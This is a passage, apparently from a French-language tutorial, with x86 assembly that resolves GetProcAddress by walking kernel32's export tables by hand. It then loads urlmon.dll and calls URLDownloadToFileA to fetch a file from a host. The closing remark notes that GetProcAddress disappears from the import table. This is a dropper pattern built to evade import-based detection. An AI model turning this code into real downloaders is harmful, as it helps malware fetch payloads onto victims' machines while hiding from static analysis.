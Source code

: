 ```
	add esi, edx ; esi = adresse 'NomFonction\n' dans Name Pointer Table 
	push ecx ; sauvegarde ecx 
	xor ecx, ecx 
	add cl, 14 ; ecx = nbre caractères dans GetProcAddress 
	repe cmpsb ; compare chaines edi et esi 
	pop ecx ; ecx = compteur nombre exports 
	jnz parseENPT 
	mov eax, [ebx+024h] ; eax = offset Ordinal Table dans Kernel32 
	add eax, edx ; eax = adresse Ordinal Table 
	mov cx, [eax+ecx\*2] ; cx = ordinal de la fonction - numéro du 1er ordinal 
	mov ax, [ebx+010h] ; eax = numéro du premier ordinal de la table 
	add cx, ax ; cx = ordinal de la fonction 
	dec cx ; pour tomber juste (ordinal débute à 0) 
	mov eax, [ebx+01Ch] ; eax = offset Export Address Table 
	add eax, edx ; eax = adresse Export Address Table 
	mov eax, [eax+ecx\*4] ; eax = offset de GetProcAddress dans Kernel32 
	add eax, edx ; eax = adresse GetProcAddress 

	push eax
	pop ebx ; utiliser apres l'appel à LoadLibrary
	push offset lib\_Urlmon 
	call LoadLibrary 

	push offset func\_URLDownloadToFileA 
	push eax ; handle urlmon.dll 
	call ebx ; ebx: adresse de GetProcAddress -> eax: adresse de UrlDownloadToFileA 

	push 0 
	push 0 
	push offset filename 
	push offset host 
	push 0 
	call eax ; eax: adresse de UrlDownloadToFileA 
exit: 
	push 0 
	call ExitProcess 
end start
```

Ci-dessous on peut voir que la fonction __GetProcAddress__ n'apparait plus dans la table des imports (IAT: Import Address Table).
